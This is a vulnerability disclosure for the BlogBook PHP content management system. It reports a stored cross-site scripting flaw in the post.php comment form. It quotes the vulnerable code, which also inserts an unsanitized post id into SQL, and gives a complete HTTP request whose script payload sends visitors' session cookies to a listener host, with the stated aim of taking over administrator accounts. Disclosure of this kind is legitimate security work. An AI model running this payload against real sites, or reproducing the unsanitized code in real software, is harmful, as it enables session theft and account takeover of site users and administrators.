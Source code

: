 # BlogBook post.php Stored Cross-Site Scripting (XSS) in Comment Functionality Leading to Admin and User Account Takeover

**Exploit Title: BlogBook post.php Stored Cross-Site Scripting (XSS) in Comment Functionality Leading to Admin and User Account Takeover**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows,PHP 5.6.9 ,Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

A stored Cross-Site Scripting (XSS) vulnerability exists in the comment functionality of BlogBook. The application fails to adequately sanitize user-supplied input when new comments are submitted. As a result, an attacker can inject malicious JavaScript code into a comment. This malicious script is then stored in the application's database and executed in the browser of any user, including administrators, who views the page containing the compromised comment.

This vulnerability was successfully exploited to steal session cookies (e.g., PHPSESSID) from users viewing the malicious comment, including an administrator account. With the stolen administrator session cookie, an attacker can hijack the administrator's session and gain full administrative control over the application. This allows for unauthorized data access, modification, user impersonation, and potentially further system compromise.

## Vulnerability Point

`blogbook-main/post.php:159`

## Vulnerable Parameter

`comment_author`,`comment_email`,`comment_content`

## Vulnerable Code

```php
                <?php
                if (isset($_POST['create_comment'])) {
                    $link_post_id = $_GET['p_id'];

                    $comment_author =  $_POST['comment_author'];
                    $comment_email =  $_POST['comment_email'];
                    $comment_content =  $_POST['comment_content'];
		    $comment_content_wo_quote = mysqli_real_escape_string($connection, $comment_content);


                    if (!empty($comment_author) && !empty($comment_email) && !empty($comment_content_wo_quote)) {

                        $query = "INSERT INTO comments (comment_post_id,comment_author,comment_email,comment_content,comment_status,comment_date) ";
                        $query .= "VALUES ($link_post_id,'{$comment_author}','{$comment_email}','{$comment_content_wo_quote}','unapproved',now())";

                        $create_comment_query = mysqli_query($connection, $query);
                        if (!$create_comment_query) {
                            die('qwery failed' . mysqli_error($connection));
                        }

                        $query = "UPDATE posts SET post_comment_count= post_comment_count + 1 WHERE post_id=$link_post_id";
                        $update_comment_count = mysqli_query($connection, $query);
                    } 
                }
```
## Payload

```
POST /post.php?p_id=51 HTTP/1.1
Host: localhost
Content-Length: 209
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="136", "Microsoft Edge";v="136", "Not.A/Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/post.php?p_id=51
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: ui_session=2986ad8c0a5b3df4d7028d5f3c06e936c683fed5f838058c51a8f44198509f744f5d26e258cbe1fe8da7b02463d66eee2b6375d0aa1cdd1416e430c3e630ff9e8; Scipio.Visitor=10100; token=58UvisDHUf0Z5YYI; PHPSESSID=nimn99lc409p4m7i0kgpj2qtk5
Connection: close

comment_author=dafs&comment_email=asfd&comment_content=<script>
++var+img+%3d+new+Image()%3b
++var+cookieData+%3d+document.cookie%3b
++img.src+%3d+"http%3a//localhost%3a8000/%3fc%3d"+%2b+cookieData%3b
</script>&create_comment=1
```

![image-20250522161056417](./assets/image-20250522161056417.png)

![image-20250522160137131](./assets/image-20250522160137131.png)

